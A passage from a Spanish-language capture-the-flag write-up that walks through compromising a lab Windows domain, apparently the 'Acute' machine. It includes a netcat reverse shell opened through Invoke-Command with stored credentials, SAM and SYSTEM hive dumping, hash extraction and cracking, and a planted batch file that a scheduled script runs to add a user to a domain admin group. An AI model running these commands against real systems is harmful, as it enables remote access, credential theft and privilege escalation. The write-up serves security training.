$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';$passwd = $securepasswd | ConvertTo-SecureString;$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',$passwd);Invoke-Command -ScriptBlock {C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe} -ComputerName Acute-PC01 -Credential $creds
```

Nos ponemos en escucha en el puerto 443.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Ahora lo ejecutamos.
```console
PS C:\ProgramData> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
```

Y conseguimos una consola como `jmorgan`
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.136.40] 49849
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```

# User Pivoting 2
Podemos comprobar que `jmorgan` es un usuario administrador en esta máquina.
```console
C:\Users\jmorgan\Documents>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                             
```

Una buena práctica en auditorias cuando eres administrador es conseguir credenciales de otros usuarios, podemos hacer esto haciendo el típico método de dumpeando la SAM.

Un tutorial básico de como hacer esto lo podemos [encontrar aquí](https://www.hackingarticles.in/credential-dumping-sam/)

Podemos dumper el registro de la SAM y el registro System.
```console
C:\Users\jmorgan\Documents>reg save hklm\sam c:\sam                       
reg save hklm\sam c:\sam
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save hklm\system c:\system                 
reg save hklm\system c:\system
The operation completed successfully.
```

Vemos que ha funcionado correctamente.
```console
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8A9A-E124

 Directory of C:\

07/12/2019  10:14    <DIR>          PerfLogs
06/12/2021  12:06    <DIR>          Program Files
07/12/2021  13:43    <DIR>          Program Files (x86)
06/09/2024  21:17            57,344 sam
06/09/2024  21:17        12,140,544 system
21/12/2021  23:50    <DIR>          Users
06/09/2024  19:57    <DIR>          Utils
16/12/2021  02:23    <DIR>          Windows
               2 File(s)     12,197,888 bytes
               6 Dir(s)   8,004,026,368 bytes free
```


Para que no haya problemas de lectura podemos añadir a `edavies` como administrador en la máquina.
```console
C:\>net localgroup administrators edavies /add
net localgroup administrators edavies /add
The command completed successfully.
```

Nos vamos a copiar los archivos a la carpeta `Utils` que es donde tengo la raíz de mi sesión de `metasploit`
```console
C:\>copy system Utils
copy system Utils
        1 file(s) copied.

C:\>copy sam Utils
copy sam Utils
        1 file(s) copied.
```

Ahora nos descargamos los archivos.
```console
Meterpreter 1)(C:\uTILS) > download sam
[*] Downloading: sam -> /home/pointedsec/Desktop/sam
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): sam -> /home/pointedsec/Desktop/sam
[*] Completed  : sam -> /home/pointedsec/Desktop/sam
(Meterpreter 1)(C:\uTILS) > download system
[*] Downloading: system -> /home/pointedsec/Desktop/system

[*] Downloaded 1.00 MiB of 11.58 MiB (8.64%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 2.00 MiB of 11.58 MiB (17.27%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 3.00 MiB of 11.58 MiB (25.91%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 4.00 MiB of 11.58 MiB (34.55%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 5.00 MiB of 11.58 MiB (43.18%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 6.00 MiB of 11.58 MiB (51.82%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 7.00 MiB of 11.58 MiB (60.46%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 8.00 MiB of 11.58 MiB (69.1%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 9.00 MiB of 11.58 MiB (77.73%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 10.00 MiB of 11.58 MiB (86.37%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 11.00 MiB of 11.58 MiB (95.01%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): system -> /home/pointedsec/Desktop/system
[*] Completed  : system -> /home/pointedsec/Desktop/system
```

Y conseguimos los hashes LM:NT de los usuarios de este equipo.
```console
$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Cleaning up... 
```

Podemos guardar los hashes a un fichero.
```console
$ cat hashes.txt 
a29f7623fd11550def0192de9246f46b
31d6cfe0d16ae931b73c59d7e0c089c0
31d6cfe0d16ae931b73c59d7e0c089c0
24571eab88ac0e2dcef127b8e9ad4740
29ab86c5c4d2aab957763e5c1720486d
```

Y podemos intentar crackearlos con `hashcat`
```console
$ hashcat -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

....
31d6cfe0d16ae931b73c59d7e0c089c0:                                                                                                                 
a29f7623fd11550def0192de9246f46b:Password@123
```


Conseguimos crackear el hash de la cuenta de invitados que no tiene credencial.

Y el hash de la cuenta del administrador que corresponde a `Password@123`

Después de probar varios usuarios, vemos que podemos ejecutar comandos en el equipo `atsserver` como el usuario `awallace` y utilizando otra vez la política `dc_manage`
```console
PS C:\uTILS> $passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force 
$passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force 
PS C:\uTILS> $cred = New-Object System.Management.Automation.PSCredential("acute\awallace", $passwd)       
$cred = New-Object System.Management.Automation.PSCredential("acute\awallace", $passwd)
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami}
acute\awallace
```

Otra vez estamos restringidos así que solo podemos intentar enumerar la máquina que ya habíamos enumerado.

Pero me acordé del `keepmeon` del cual no había encontrado nada por Internet, por lo cual debe de ser algo personalizado.

Y vemos un archivo `keepmeon.bat`, un poco rebuscado...
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon"}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon"}


    Directory: C:\Program Files\keepmeon


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        21/12/2021     14:57            128 keepmeon.bat                       atsserver                         


```

Este es el script.
```bat
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

El script busca y ejecuta todos los archivos `.bat` en el directorio actual y en los subdirectorios, exceptuando el propio script que está en ejecución. Esta es una forma de automatizar la ejecución de múltiples scripts `.bat` sin tener que llamarlos individualmente.

# Privilege Escalation
En el documento word del principio, encontrabamos lo siguiente.



> **Lois is the only authorized personnel to change Group Membership, Contact Lois to have this approved and changed if required. Only Lois can become site admin. **

Entonces el usuario `Lois` que es el mismo que está ejecutando el script que hemos encontrado cada 5 minutos, puede agregar a los usuarios a un grupo para convertirse en "site admin", vamos a investigar a que grupo puede que añada a los usuarios.

Vemos un grupo llamado `Site_Admin`, blanco y en botella leche.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group /domain}               Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {net group /domain}

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
The command completed with one or more errors.
```

Vamos a crear un script para añadir al usuario `awallace` a este grupo.

Se lo podemos preguntar a ChatGPT como he hecho en varias partes en este write-up.
```console
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'C:\Program Files\keepmeon\pointed.bat' -Value 'net group "Site_Admin" awallace /add /domain'}
```

Ahora podemos comprobar que se ha creado.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon\"} 
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon\"}


    Directory: C:\Program Files\keepmeon


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-a----        21/12/2021     14:57            128 keepmeon.bat                       atsserver                         
-a----        06/09/2024     21:45             59 pointed.bat                        atsserver                         


```

Podemos comprobar el contenido.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type "C:\Program Files\keepmeon\p
ointed.bat"}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type "C:\Program Files\keepmeon\pointed.bat"}
net group "Site_Admin" awallace /add /domain
```

Después de esperar 5 minutos podemos revisar los grupos de `awallace` y vemos que ahora pertenece a `Site_Admin` y a `Domain Admins`

```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami /groups}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {whoami /groups}

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access      Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Domain Admins                          Group            S-1-5-21-1786406921-1914792807-2072761762-512  Mandatory group, Enabled by default, Enabled group             
ACUTE\Managers                               Group            S-1-5-21-1786406921-1914792807-2072761762-1111 Mandatory group, Enabled by default, Enabled group             
ACUTE\Site_Admin                             Group            S-1-5-21-1786406921-1914792807-2072761762-2102 Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Denied RODC Password Replication Group Alias            S-1-5-21-1786406921-1914792807-2072761762-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

Así que ahora teóricamente podemos acceder a la flag de `root`.
```console
PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users\Administrator\Desktop}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {ls C:\Users\Administrator\Desktop}


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        06/09/2024     17:37             34 root.txt                           atsserver                         


PS C:\uTILS> Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}
Invoke-Command -ComputerName atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock {type C:\Users\Administrator\Desktop\root.txt}
7e9839b552472...
```

Happy Hacking! 🚀